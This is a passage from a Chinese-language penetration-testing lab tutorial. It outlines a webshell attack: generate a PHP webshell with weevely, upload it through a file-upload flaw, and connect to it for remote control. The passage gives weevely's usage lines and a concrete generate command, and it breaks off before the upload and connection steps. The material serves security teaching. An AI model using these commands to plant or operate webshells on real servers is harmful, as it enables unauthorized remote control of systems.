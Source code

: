 
### 5.4 Webshell 实战

做好一切准备工作之后我们便开始我们的攻击。

我们的攻击主要是：

- 使用 weevely 生成 webshell 
- 通过上传漏洞上传 webshell
- 建立连接，远程操控，验证 webshell

所以我们第一步便是使用 weevely 生成 webshell。

在 kali 中输入 `weevely` 命令命令我们可以看到：

![图片描述](../imgs/1481009912564.png-wm_1.png)

显示了 weevely 的版本信息，已经常用的参数用法：

```
# 连接 webshell 程序
weevely <URL> <password> [cmd]
 
# 加载 创建好的连接通道、session 会话
weevely session <path> [cmd]

# 生成 webshell 程序
weevely generate <password> <path>
```

所以首先我们需要做的便是通过 weevely generate 来生成我们的 webshell 文件：

```
weevely generate shiyanlou /var/www/html/webshell.php
```
